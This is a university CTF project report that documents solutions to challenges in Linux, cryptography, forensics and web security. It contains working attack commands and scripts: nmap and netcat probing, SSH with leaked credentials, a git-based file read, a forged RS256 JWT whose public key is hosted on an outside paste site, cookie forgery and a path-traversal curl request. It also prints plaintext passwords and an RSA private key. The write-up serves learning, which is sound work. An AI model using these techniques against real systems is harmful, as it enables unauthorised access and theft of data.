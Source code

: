 <div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <h2>CITS1003 Project Report</h2>
  
  <p>Student ID: Student 24059081</p>
  <p>Student Name: Ziying Zhou</p>

</div>

# Part 1 - Linux and Networking
## Emu Hack #1 - Backdoored
### Step 1
Use NMAP to scan the specified port range of the server to determine which port has open services.
Step 1: Use nmap to scan ports
Firstly, we will use nmap to scan the port range 61000 to 61500 on IP address 34.116.68.59. Install it with command:
```
sudo apt-get install nmap
```
Scan specified port range
Scan the specified port range using the following command:
```
nmap -p 61000-61500 34.116.68.59 -Pn
```
 `-p` : option is used to specify the port range.

 `- Pn`:  option is used to skip host probing (this option can be used if you encounter issues with unresponsive hosts).

 Then we got this:
 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 08:16 EDT
Nmap scan report for 59.68.116.34.bc.googleusercontent.com (34.116.68.59)
Host is up (0.063s latency).
Not shown: 500 filtered tcp ports (no-response)
PORT      STATE SERVICE
61337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.90 seconds
```
### Step 2
Use Netcat to send TCP messages to the discovered open port and verify which port is the backdoor port.
Install netcat with command:
```
sudo apt-get install netcat
```
The port we found is `61337`, so we can use this command to send the message:
```
echo "EMU" | nc 34.116.68.59 61337
```
We got what we need now.
```
 ______        ___   _ _____ ____    _                  
|  _ \ \      / / \ | | ____|  _ \  | |__  _   _        
| |_) \ \ /\ / /|  \| |  _| | | | | | '_ \| | | |       
|  __/ \ V  V / | |\  | |___| |_| | | |_) | |_| |       
|_|     \_/\_/  |_| \_|_____|____/  |_.__/ \__, |       
    _                             _____    |___/        
   / \   _ __   __ _ _ __ _   _  | ____|_ __ ___  _   _ 
  / _ \ | '_ \ / _` | '__| | | | |  _| | '_ ` _ \| | | |
 / ___ \| | | | (_| | |  | |_| | | |___| | | | | | |_| |
/_/   \_\_| |_|\__, |_|   \__, | |_____|_| |_| |_|\__,_|
               |___/      |___/                         

Did you really think you would find our backdoor so easily? :P

Good effort though, here's a flag for your attempt: UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```
#### Flag Found
```bash
UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```

## Emu Hack #2 - Git Gud
### Step 1
#### Check Git server and clone repository ：
Install the `git`:
```
sudo apt-get install git
```
Clone Git repository
Run the following command to clone a Git repository named emu:
```
git clone http://34.116.68.59:8000/emu.git
```
```
┌──(kali㉿kali)-[~]
└─$ git clone http://34.116.68.59:8000/emu.git
Cloning into 'emu'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (3/3), done.
```
### Step 2
#### Check the cloned repository：
Enter the cloned warehouse repository with command `cd emu`. Then list all the file with command `ls`.
There is a text file call `README.txt` So we need to catch the message with `cat README.txt`.
```
┌──(kali㉿kali)-[~/emu]
└─$ cat README.txt
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}
--------------------------------------------------

To Angry Emu hacker,

As per our agreement, I have set up some SSH credentials for you to access our server:

username: emu001
password: feathers4life24

To make sure only us birbs can get in I set a login shell to stop pesky hoomans getting in. Just do that SSH trick I taught you about to get in.

Delete this message after you read it!

Best regards,
Mr. X
```
#### Flag Found
```bash
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}

```

## Emu Hack #3 - SSH Tricks
### Step 1
#### Run commands directly using SSH：
As we got the username and password from last question:
```
username: emu001
password: feathers4life24
```
Try using SSH to directly execute commands on a remote host, such as listing the contents of the/home/emu001 directory:
```
ssh -p 2022 emu001@34.116.68.59 "ls /home/emu001"
```
Then we got:
```
note_to_angry_emu_hacker.txt
top_secret.png
```
Then try to copy it to local folder:
```
scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
```
```
┌──(kali㉿kali)-[~/emu]
└─$ scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
emu001@34.116.68.59's password: 
note_to_angry_emu_hacker.txt                        100%  313     2.5KB/s   00:00    
top_secret.png                                      100%  475KB 912.0KB/s   00:00  
```
Obviously, `top_secret.png` is what we are looking for. Now open it from where we just downloaded.
#### Flag Found
```bash
UWA{how_did_u_get_pass_that_login_shell?????}
```

## Emu Hack #4 - Git Gud or GTFO Bin
### Step 1
#### Connect to target server:
Because `python3 -c 'import pty; pty.spawn("/bin/bash")'` didn't work on my computer, I used this instead:
```
ssh -t -p 2022 emu001@34.116.68.59 "bash -i"
```
`-t`: This option forces the allocation of a pseudo terminal. For certain commands, especially those that require user interaction, such as bash, this option is necessary. It allows us to run interactive shells or other commands in remote sessions.
`"bash - i"`: This section is the command to be executed after successfully connecting to the remote server. In this case, we need to launch an interactive bash shell- The i option represents an interactive shell.
### Step 2
#### Run command:
`diff`:  is a subcommand of git used to compare the differences between two files or directories.
The diff command here compares the contents of two files and outputs their differences.

`--no-index`: The `--no-index` option tells the git diff command to compare two specified files instead of assuming they are in a Git repository. It allows us to compare two regular files without the need for them to be in the Git repository.

`/dev/null`: is a special file that discards all data written to it, and reading it always returns EOF.
In this command, we compare `/dev/null` as an empty file with flag4.txt.

`/home/mr_x/flag4.txt`: This is the path to the target file we want to view.
Then we got:
```
diff --git a/home/mr_x/flag4.txt b/home/mr_x/flag4.txt
new file mode 100644
index 0000000..a0c60be
--- /dev/null
+++ b/home/mr_x/flag4.txt
@@ -0,0 +1 @@
+UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
\ No newline at end of file
```
#### Flag Found
```bash
UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
```

# Part 2 - Cryptography
## Advanced Emu Standard
### Step 1
This scenario describes the use of AES-128 encryption algorithm to encrypt data in ECB (Electronic Codebook) mode.
Because AES-128 operates with a block size of 16 bytes. The website can only encrypt 31 bytes of data at a time. However, command `deactivate_special_procedure_123` has 32 bytes long So I devided this command into two parts both only have 16 bytes of it.
```bash
deactivate_speci
```
```bash
al_procedure_123
```

### Step 2
I put these two command `deactivate_speci` and `al_procedure_123` into Command Encryptor respectively.
Then I gain the ciphertext `3155433d53ed30c89aef89b2e7273924` and `4127efafc809cc1209376d039e0001f1`.
Now put them together.
```bash
3155433d53ed30c89aef89b2e72739244127efafc809cc1209376d039e0001f1
```
### Step 3
Put the cyphertext into Transmit encrypted command and get the flag.
#### Flag Found
```bash
UWA{3CB_i5_bL0cK_Ind3peNd3nt!}
```

## Emu Cook Book
### Step 1
`H4sI` is an identifier that indicates that a string of data is compressed using gzip and encoded as the beginning of Base64 format
At the end of the cyphertext, there are two '=' which is also likely to be Base64. 
So I try to use `From Base64` and `Gunzip` first in Cyberchef.
Then I gain these:
```
00000000%20%2035%2036%2020%2035%2036%2020%2036%2034%2020%2034%2032%2020%2036%2035%2020%2033%20%20%7C56%2056%2064%2042%2065%203%7C%0A00000010%20%2033%2020%2035%2032%2020%2034%2039%2020%2034%2064%2020%2033%2031%2020%20......
```
### Step 2
As we can see above, the text includes special characters like '%' in it. It might be the URL encoding format, so I use `URL Decode`
And it becomes like this:
```
00000000  35 36 20 35 36 20 36 34 20 34 32 20 36 35 20 33  |56 56 64 42 65 3|
00000010  33 20 35 32 20 34 39 20 34 64 20 33 31 20 33 39  |3 52 49 4d 31 39|
......
```
### Step 3
The result we gained from last step is `Hexdump` format, so I use `From Hexdump` in cyberchef, then we obtained a set of hexadecimal numbers.
Easily, use `From Hex` in cyberchef.
Then we have:
```
VVdBe3RIM19lTW9PNV93MUxMX24zVjNyX3NUb1BfZDAxbkdfdEgzNWVfZFZtQl9jMUJyX2NIM2VGX2NoNExsU30=
```
Similarly, it ends with '='. So I assume it is a base64 text and use `From Base64` again.
And we have the flag now.
#### Flag Found
```bash
UWA{tH3_eMoO5_w1LL_n3V3r_sToP_d01nG_tH35e_dVmB_c1Br_cH3eF_ch4LlS}
```

## Emu Casino
### Step 1
#### What is seed?
As we can see from the `filp_coin.py` file, `seed(str(session["round"]) + "_" + session["session_id"])` is the main thing to decide the result.
The seed() function in Python initializes the random number generator with a specific starting point, allowing for reproducible random outcomes.
The seed here is consist of two parts: first one is `session["round"]` which is the round of the game, the second one is `session["session_id"]` which can be found in the cookie.
### Step 2
#### Find the session id:
We can right click on the page `http://34.87.251.234:3000/` and select `inspect`. Then find `Application` and we can see `cookie` on the left panel.
The cookie value we found is:
```
eyJjcmVkaXRzIjoxMCwicm91bmQiOjEsInNlc3Npb25faWQiOiJiYTNlNTJiMTc0M2Y3MzUxOGM4YmEwYzY1YjAzYTliYyJ9.ZkiIpw.pTUdUQa5nkII0zkbM7EBa8RXQY4
```
This is base64 text, so we can decode it through CyberChef: `https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)`.
CyberChef is a web-based tool for encoding, decoding, encrypting, decrypting, and analyzing data through a wide array of operations.

After we use `From Base64` , we got:
```
{"credits":10,"round":1,"session_id":"ba3e52b1743f73518c8ba0c65b03a9bc"}fH.§
SQÕ.k.ä .3.³;..¼Et.ä
```
So the session id is `ba3e52b1743f73518c8ba0c65b03a9bc`.
### Step 3
#### Use `solution.py`:
As the solution provided:
```

def flip_coin():
    # Change this line
    session_id = ""
    # Change this line
    round = 0

    seed(str(round) + "_" + session_id)

    print(choice(["tails", "heads"]))
```
Only thing we need to do is filling the session id and round number in it and we will get the prediction.
#### Flag Found
```bash
UWA{R0LLl111Llli1iNg_1N_C4$$$$h!11!}
```

## EWT
### Step 1
#### Find the flaw:
Open the `website.js` file, is easily to find the code below:
```
if (signingAlgo === "RS256") {
        // Grab where the RS256 public key URL from the "iss" claim in the JWT body
        // We currently haven't figured out how to sign our own RS256 JWTs yet...
        const issuerUrl = decodedBody.iss;

        // Make sure those hoomans aren't hacking with something like file://
        const regExp = new RegExp("^https?://");
        if (!regExp.test(issuerUrl)) {
            throw Error("invalid URL in iss claim");
        }
        
        // Should be fine to download the public key
        key = await downloadFromUrl(issuerUrl);
    }
```
In the comment, it reveals that EMU didn't use RS256 to sign their JWT. So we can use a JWT signed with RS256 to bypass the verification.
### Step 2
#### How is the JWT consist of:
JWT (JSON Web Token) is a compact, URL-safe means of representing claims to be transferred between two parties, commonly used for authentication and information exchange in web applications.
As we can find this JWT in site `http://34.87.251.234:3002/` :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBlYXNhbnQtaG9vbWFuIiwiaWF0IjoxNzE2MDMwNTMzfQ.AXthaVqinWUo9K0DAWdzOyq-KL2H3_09GQsPw7RngrY
```
Now decode it through Cyberchef to look at the structure.
```
{"alg":"HS256","typ":"JWT"}{"username":"peasant-hooman","iat":1716030533}..¶..ª)ÖR.JÐ0.w3²¨¢ö.}=...Ã´g.¶
```
This JWT is signed with HS256 algorithm. Still in the `website.js`, a comment: ` // If the username is "superior-emu" in the JWT then give them the pressie` replies that we can use username:`superior-emu` to sign the JWT. Then how?
### Step 3
#### Create the new JWT:
To force the emu download our public key signed by RS256, we need to create an URL where can be read by emu.
Using CyberChef, `Generate RSA Key Pair` can provide a pair of RSA key.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDWJNveamCYETN8BeTUxHL8AOGs
Kc0YqlYtpUqGQtMAGFe4FpDg+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxc
MO72l4bsTbSuNQtuqsDT6s5nRTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WL
uQPL30p13CJR7LzI3wIDAQAB
-----END PUBLIC KEY-----

-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----
```
We can use website `https://text.is/` to keep the public key. Now we got the URL:`https://text.is/KXRZ8/raw`.
In the context of JWT (JSON Web Tokens), iss stands for "issuer" and is a claim that identifies the principal that issued the JWT.
So we are going to put the URL into iss: iss:"https://text.is/KXRZ8/raw".
By combining all the things we know and put it into a python file(for generating the JWT)
```
import jwt
from datetime import datetime, timedelta

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----"""

payload = {
    'username': 'superior-emu', 
    'iss': 'https://text.is/KXRZ8/raw' 
}
# Sign JWT with RSA256
encoded_jwt = jwt.encode(payload, private_key, algorithm='RS256')
print("Generated JWT:", encoded_jwt)
```
we can obtain:
```
Generated JWT: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyaW9yLWVtdSIsImlzcyI6Imh0dHBzOi8vdGV4dC5pcy9LWFJaOC9yYXcifQ.OtYLcA-LcQGuWC405HuJxtV5xADgYBM7bL78JlrFMiZcMwq-6w2Br9ZC2u3AqQz9wVhYrZrbI9h0rS_YWC6ExN9SUXCQjNjnT54wudo19xWfqveE82E6Ed_Ir1MCWwHfMb3NvbAWqYdKvmS-Y1PWLypA7siUOC869qcwbz6AZqg
```
Put this JWT into the server.
#### Flag Found
```bash
UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```

# Part 3 - Forensics
## Caffeinated Emus
### Step 1
Picture may embed some metadata. You can use exiftool to extract this information.
Install exiftool:
```
sudo apt-get install exiftool
```
Extract metadata:
```
exiftool /home/kali/loganpaul-emus.png
```
And we got:
```
┌──(kali㉿kali)-[~]
└─$ exiftool /home/kali/loganpaul-emus.png
ExifTool Version Number         : 12.76
File Name                       : loganpaul-emus.png
Directory                       : /home/kali
......
GPS Latitude                    : 31 deg 27' 59.19" S
GPS Longitude                   : 119 deg 29' 0.70" E
GPS Position                    : 31 deg 27' 59.19" S, 119 deg 29' 0.70" E
```
Now we have the location: `-31.466441, 119.483528`.
So we can search it in GoogleMap: `https://www.google.com/maps`.
#### Flag Found
```bash
UWA{Marvel Loch}
```

## Flightless Data
### Step 1
As we can know from the clue, emu used `steghide` to encode their message in the image. So we can decode it with the oppsite way:
Install the `steghide` first:
```
sudo apt install steghide 
```
Look for some help with:
```
steghide --help
```
### Step 2
Save the image from `html` as emufly.jpg.
Now we got what we need:
```
┌──(kali㉿kali)-[~]
└─$ steghide extract -sf /home/kali/emufly.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
`-sf`: Specify a file that contains hidden data.

Now open the secret.txt
```
cat secret.txt
```
#### Flag Found
```bash
UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr} 
```

## Ruffled Feathers
### Step 1
#### Using ghex to find the problem:
GHex, short for GNOME Hex Editor, is a desktop application used to edit binary files in hexadecimal format, providing tools to analyze and modify the raw binary content of files visually. 
Download it with command :
```
sudo apt install ghex
```
Then open the pdf file with ghex:
```
ghex /home/kali/topsecret_corrupted.pdf
```
What we can see from the right panel is:

![image](https://github.com/GLRY-M/cits1003/assets/169660884/8b9abe0b-b9a4-49e2-a3fb-002ca9b368a7)

It's a little bit hard to check what's the problem. So we can open a normal pdf file to check the difference.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/54c88605-95ac-4740-9d73-2a71d824ce9d)

What was supposed to be `length` was `Corrupted`.So we can edit this and save it. Now the pdf has the useful content in it.
#### Flag Found
```bash
UWA{uNrUffLed_pDeF}
```


## Emu in the Shell
### Step 1
#### SSH login to server:
Connect to the server via SSH using the provided account information. Using commands:
```
ssh-p 2022 ir-account@34.87.251.234
```
`- p 2022` is the specified port, the username is `ir-account`, and the server address is `34.87.251.234`.  

Find and check the PAM module:
Once logged in, we need to check the files in the `/lib/x86_64 Linux gnu/security` directory to find any recently modified PAM modules. We can use the following command to view the modification time of a file:
```
ls lt/lib/x86_64 Linux gnu/security
```
To find the file be changed by EMU, we can go to this blog: `https://github.com/zephrax/linux-pam-backdoor`. Then we will know the file `pam_unix.so` is what er are looking for.
### Step 2
#### Now copy this file to local folder:
Let's copy the files to the `/tmp` directory, which is usually open to all users for write access. Use the following command:
(Ensure that you execute this command in the terminal of the Kali environment)
```
scp -P 2022 ir-account@34.87.251.234:/tmp/pam_unix.so ~/pam_unix.so
```
### Step 3
#### Analyse what did EMU change in pam_unix.so:
Use Ghidra to do it: (download it through: `https://ghidra-sre.org/`).
We also need to download JDK (version need to higher than 17)

Now open Ghidra and import `pam_unix.so` and `analyse` it. As we knew from the clue, there is an account called 'emu-haxor', so we can use this as the keyword to search in the file.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/bf625be8-22b5-4103-a692-4b7ff54ba2f4)

There is an item `pUpPet_m4sT3r`. It probably is the password for emu-haxor account. So log in the emu-haxor now:
```
ssh-p 2022 emu-haxor@34.87.251.234
```
The flag should be in it right now, use `ls` have a look at what's in here and we can find there is a `flag.txt` here -- is what we are looking for:
```
cat flag.txt
```

#### Flag Found
```bash
UWA{tH15_eMu_w1Ll_aLw4y5_b3_iN_uR_sH3lLlLllL!11!}
```

# Part 4 - Vulnerabilities
## Feathered Forum - Part 1
### Step 1
#### Bypass the verification:
From the `app.py` file we can see emu just check that the "username" cookie matches an existing user which is unreliable.
The eligible usename also provided in the code:
```
# Hard code the allowed users so hooman hackers cannot make their own accounts
EMU_USERS_ACCOUNTS = [
    {
        "username": "BeakMaster",
        "password": os.urandom(16).hex()
    },
    {
        "username": "OstrichOutlaw",
        "password": os.urandom(16).hex()
    },
    {
        "username": "H4ck3r3mu123",
        "password": os.urandom(16).hex()
    }
]
```
### Step 2
#### Set a new cookie to confuse the verification:
Press the `F12` button on our keyboard(Windows). Then select `Application` . Create a new cookie named `username`, insert the value as `BeakMaster`.
Now open the site directly `http://34.87.251.234:8000/forum`.
#### Flag Found
```bash
UWA{C00k13333z_4r3_Th3_W4y_T0_4n_3mu's_H34rt}
```

## Feathered Forum - Part 2
### Step 1
After we turn on the page from last question from site `http://34.87.251.234:8000/forum`.
There is a post called `What on earth is a path traversal???` has the information we are looking for.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/9f658483-5c92-4d77-817a-835ad58d0112)
#### Flag Found
```bash
UWA{CWE-22}
```

## Feathered Forum - Part 3
### Step 1
The provided code shows how the server handles requests for static files. The code takes a filename parameter and associates it with combining `./static/` path to locate files. If the user controlled input (file name parameter) contains something like `../` If this path traverses the sequence, then this input may be used to jump to other directories.
#### URL Parameter Parsing:
filename=../config.yaml is a request parameter received by the web server.
The server code will append this parameter value to the predefined path ./static/.
#### Server-Side Code Behavior:
Based on the provided code, os.path.join("./static", file_path) will be executed, where file_path is obtained from the request as ../config.yaml.
This code attempts to append ../config.yaml to the path ./static/, intending to set the access path within the ./static directory. However, due to the use of ../, the path resolves to ./static/../config.yaml, which actually points to ./config.yaml, located in the feathered-forum directory.
```
curl "http://34.87.251.234:8000/static?filename=../config.yaml"
```
`Curl`:  is a tool for sending HTTP requests. The use of `curl` here is to directly test the response of the web server from the command line, which is very effective for quick verification and vulnerability testing.

Run this command and we get:
```
┌──(kali㉿kali)-[~]
└─$ curl "http://34.87.251.234:8000/static?filename=../config.yaml"

secret_key: "UWA{Dir_Trav3rs@l_Flight}"
```
#### Flag Found
```bash
UWA{Dir_Trav3rs@l_Flight}
```

## Emu Apothecary
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```
